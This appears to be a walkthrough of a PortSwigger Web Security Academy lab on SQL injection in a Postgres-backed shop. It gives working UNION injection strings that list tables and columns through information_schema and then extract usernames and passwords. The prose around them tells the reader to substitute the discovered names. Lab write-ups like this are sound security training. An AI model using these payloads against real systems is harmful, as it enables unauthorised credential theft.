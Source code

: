 # Write-up: SQL injection attack, listing the database contents on non-Oracle databases @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *SQL injection attack, listing the database contents on non-Oracle databases* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical to the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

### Find users table

The database in use here is Postgres (enumerated by injection `' UNION SELECT null,version()--`), which holds the table information in the information_schema.tables-table. In the [relevant documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html), the available columns are listed. We are interested in `table_name`. So inject `' UNION SELECT table_name, table_schema from information_schema.tables--` into the parameter to form the following query:

I use an invalid category so that no articles are found and only my output appears.


// 📝 THIS REVEALS ALL DATABASE TABLES AND THEIR SCHEMAS (JUST THE NAMES). FURTHER DETAILS NEED TO BE EXTRACTED WITH THE NEXT INJECTION. NOTE DOWN POTENTIAL TABLE SCHEMAS THAT MIGHT CONTAIN USER DETAILS.



```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from information_schema.tables--'`
```

![name of the users table](img/found_users_table.png)

### Enumerate colums in this table

The [information_schema.columns](https://www.postgresql.org/docs/9.1/infoschema-columns.html) view holds information about the columns of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--` to form this query



// 📝 REPLACE THE TABLE NAME WITH THE ONE YOU NOTED ABOVE. ALSO, MAKE NOTE OF THE FIELD NAMES THAT CONTAIN USERNAMES AND PASSWORDS.



```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--'
```

![username and password columns](img/username_and_password_columns.png)

### Enumerate all usernames and passwords

Now we have all information to obtain the required usernames and passwords. Inject `' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--` to form this query:

// 📝 REPLACE THE USERNAME AND PASSWORD FIELD NAMES ACCORDING TO THE ONES YOU NOTED ABOVE.


```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--'`
```

![usernames and passwords](img/username_and_passwords.png)

// 📝 PASSWORDS OF USERS SHOULD NOW BE VISIBLE.

Now I simply log in to solve this exercise.

![success](img/success.png)
